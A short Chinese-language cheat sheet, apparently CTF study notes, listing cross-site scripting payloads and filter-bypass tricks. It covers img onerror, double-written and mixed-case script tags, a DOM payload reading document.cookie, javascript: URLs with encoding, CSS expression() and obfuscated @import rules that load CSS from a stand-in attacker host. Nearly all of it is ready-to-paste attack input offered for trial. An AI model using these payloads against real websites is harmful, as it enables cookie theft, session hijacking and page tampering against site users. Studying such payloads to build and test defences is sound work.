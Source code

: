 #### 考点
1. XSS反射型/存储型
方法一:用`<img>`标签代替`<script>`
`<img src=1 onerror=alert('xss')>`
方法二:双写绕过`<s<script>cript>alert('xss')</script>`
方法三:大小写绕过
`<ScRipt>alert('xss')</ScRipt>` 

2. DOM型
`?default=<script>alert(document.cookie)</script>`


上面不行，试试下面的

```
第一类：Javascript URL

<a href="javascript:alert('test')">link</a>

<a href="java&#115;cript:alert('xss')">link</a>

<iframe src=javascript:alert('xss')>

第二类：Inline style

<div style="color: expression(alert('XSS'))">

<div style=color:expression\(alert(1))></div>

第三类：JavaScript 事件

<img src=1 onclick=alert('xss')>

<img src=1 onerror=alert('xss')>

<body onload=alert('xss')>

第四类：Script标签

<script>alert('xss')</script> <script>alert(document.cookie)</script>

<script>window.location='http://www.163.com'</script>

<scr<script>ipt>alert('XSS')</scr<script>ipt>

<SCRIPT>alert('xss')</SCRIPT>

第五类：CSS import

<style>@import url("http://attacker.org/malicious.css");</style>

<style>@imp\ort url("http://attacker.org/malicious.css");</style>

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<STYLE>@import'http://jb51.net/xss.css';</STYLE>
```

